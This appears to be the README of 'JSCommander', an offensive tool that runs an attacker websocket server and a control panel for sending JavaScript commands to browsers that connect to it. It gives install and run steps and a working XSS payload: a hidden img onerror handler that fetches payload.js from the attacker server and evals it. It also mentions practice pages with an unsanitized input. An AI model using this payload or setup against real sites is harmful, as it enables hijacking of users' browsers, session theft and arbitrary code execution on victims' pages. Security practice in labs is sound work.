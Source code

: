 # JSCommander
Issue JS commands remotely when clients connect to your attacker websocket server

Inspired by https://www.nullpt.rs/hacking-gta-servers-using-web-exploitation

# Install
```bash
python3 -m venv .venv
source ./.venv/bin/activate
python3 -m pip install -r requirements.txt
```

# Usage
Run the server
```bash
python3 JSCommnder-server.py
```

Control panel is available at http://localhost:8080/control_panel.html

You can use XSS payloads to connect to the websocket server. i.e:
```html
<img src="#" onerror='fetch(`http://localhost:8080/payload.js`).then(res=>res.text().then(r=>eval(r)))' style="display:none" />
``` 

There are 2 testing HTML files to play with.
- `test_client.html` simply connects to the webocket server upon opening it in your browser.
- `test_client2.html` has an unsanitized input for practicing with XSS payloads.